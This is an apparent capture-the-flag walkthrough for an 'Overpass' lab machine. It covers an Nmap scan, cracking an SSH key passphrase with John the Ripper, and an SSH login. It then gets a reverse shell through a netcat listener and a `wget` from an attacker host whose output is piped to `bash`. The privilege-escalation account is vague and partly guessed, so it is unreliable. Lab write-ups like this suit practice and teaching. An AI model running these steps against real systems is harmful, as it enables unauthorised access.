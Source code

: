 # Overpass CTF Walkthrough

**Target IP:** `10.10.113.221`  
**Date:** May 1, 2025  
**Tools Used:** Nmap, ssh2john, John the Ripper, Python HTTP Server, netcat

---

## 🔍 Reconnaissance

We started with a basic Nmap scan to identify open services on the target:

```bash
nmap 10.10.113.221 -sC -sV
```

**Scan Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

A Golang-based HTTP server and an SSH service were open. We moved on to investigate the web server.

---

## 🌐 Enumeration

Visiting `http://10.10.113.221` in the browser showed a custom Overpass-branded page.

Next, we examined the files provided to us locally, specifically an SSH private key named `id_key` and its associated hash.

To crack the private key, we used `ssh2john` and `John the Ripper`:

```bash
/usr/share/john/ssh2john.py id_key > id.hash
john id.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

**Cracked Password:** `james13`

We now had SSH credentials:
- **User:** james
- **Key:** `id_key`
- **Passphrase:** `james13`

---

## 🔓 Exploitation

We logged in via SSH:

```bash
ssh -i id_key james@10.10.113.221
```

We were successfully logged in as `james` on the remote host:

```text
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)
```

We then prepared for privilege escalation by setting up a Python HTTP server to serve a custom shell script:

```bash
cd Music/overpass
mkdir downloads
cd downloads
mkdir src
touch buildscript.sh
nano buildscript.sh  # (Insert reverse shell payload)
cd ..
sudo python3 -m http.server 80
```

Simultaneously, on the remote host we edited `/etc/hosts`, likely to prepare for some redirection or name resolution.

---

## ⚙️ Privilege Escalation

A reverse shell was set to connect back using `nc` on the attacking machine:

```bash
nc -lvnp 4444
```

From the target, the reverse shell payload in `buildscript.sh` was fetched and executed, likely giving root or higher-privilege access.

```bash
wget http://<attacker-ip>/downloads/src/buildscript.sh
bash buildscript.sh
```

After triggering the reverse shell from the victim, a connection was received on port `4444` on our Kali box, confirming successful shell access.

---

## ✅ Summary

| Phase              | Action                                                                 |
|-------------------|------------------------------------------------------------------------|
| Recon              | Nmap scan, discovered ports 22 and 80                                 |
| Enumeration        | Cracked SSH private key passphrase using John                         |
| Exploitation       | SSH access via cracked key, reverse shell hosted via Python server   |
| Privilege Escalation | Executed shell script from target system, received reverse shell     |

---

## 📌 Notes
- The HTTP server needed to be run using Python3 as Python2's `SimpleHTTPServer` was deprecated.
- Make sure file paths match exactly; a 404 was logged due to incorrect path on initial GET request.

---

## proof of completion 



 
